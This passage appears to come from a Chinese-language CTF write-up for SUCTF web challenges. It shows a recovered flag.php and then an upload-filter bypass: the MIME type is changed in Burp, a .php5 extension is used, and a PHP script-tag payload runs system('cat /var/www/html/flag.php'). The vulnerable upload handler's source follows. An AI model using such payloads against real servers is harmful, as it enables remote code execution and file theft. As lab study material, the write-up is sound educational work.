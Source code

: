 ```php
        </p>
    </div>
</nav>

  </body>
</html>

';
  }
}

```

- 可见 flag 在 flag.php 中
- 下载 flag.php (ZmxhZy5waHA=)

```php
<?php
header("Content-Type: text/html;charset=utf-8");
//flag:SU{hu_lu_w4_15_g00d!}
echo'厉害啊，你竟然能找到这里，然而flag在哪里呢，hiahiahia！';
?>
```

FLAG: SU{hu_lu_w4_15_g00d!}

### Easy_upload

- 文件上传题，仅允许上传 png 文件，所以通过 burp 修改文件类型

![1](https://github.com/Chris-Ju/Picture/blob/master/SUCTF-easy_upload-1.png?raw=true)

- 可知，php结尾不允许上传，所以使用 php5，即将文件名结尾改为 php5
- 注意 文件开头如果为 <?php被过滤了
- 构造 payload <script language="php">print_r(system('cat /var/www/html/flag.php'))</script> 
- 拿一波源码

```php
<?php

if ($_FILES["file"]["error"] > 0){
  die("Error: " . $_FILES["file"]["error"] . "<br>");
} else {
  if ($_FILES["file"]["type"] != 'image/png'){
      die('only allow png!');
  }
  $ct = file_get_contents($_FILES["file"]["tmp_name"]);
  if (preg_match('/<\?php/i', $ct)){
    die("'&lt;?php' not allowed!");
  }
  if (preg_match('/\.php$/i', $_FILES["file"]["name"]) || preg_match('/\.htaccess$/i', $_FILES["file"]["name"])){
    die($_FILES["file"]["name"] . " not allowed!");
  }
  if (file_exists("upload/" . $_FILES["file"]["name"])){
    echo $_FILES["file"]["name"] . " already exists. ";
  }
  else{
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $_FILES["file"]["name"]);
    echo "Stored in: " . "upload/" . $_FILES["file"]["name"];
  }
}
?>
```

